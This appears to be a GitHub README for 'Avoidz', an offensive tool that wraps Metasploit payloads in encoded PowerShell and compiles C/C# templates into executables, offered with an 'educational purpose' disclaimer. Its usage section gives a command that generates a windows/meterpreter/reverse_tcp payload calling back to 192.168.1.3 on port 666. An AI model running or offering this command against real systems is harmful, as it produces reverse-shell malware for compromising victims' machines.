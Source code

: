 ## Avoidz v 1.0 
    Author: Mascerano Bachir [ dev-labs ]

## Legal Disclamer:
    The author does not hold any responsibility for the bad use of this tool,
    remember this is only for educational purpose.

<br /><br />

## Description:
    This tool Generate encoded powershell with metasploit payloads,convert C & C# Templates to EXE's 
 
## Screenshot:
![pic1](http://i.imgur.com/v3Jwj5g.png)

![pic2](http://i.imgur.com/L6GCvpJ.png)

<br /><br />

## Dependencies :
    1 - metasploit-framework
	2 - xterm
	3 - MinGW32
	4 - Monodevelop

## Download/Config/Usage:
    1º - Download the tool from github
         git clone https://github.com/M4sc3r4n0/avoidz.git

    2º - Set setup script execution permitions
         cd avoidz
         sudo chmod +x setup.sh

    3°- Run setup script
         sudo./setup.sh == to check dependecies

    4°- Run avoidz tool == example
         sudo ./avoidz.rb == help command
	 sudo ./avoidz.rb -h 192.168.1.3 -p 666 -m windows/meterpreter/reverse_tcp -f temp1 == generate

## video tutorial: 
Avoidz v 1.0 temp1 generate :
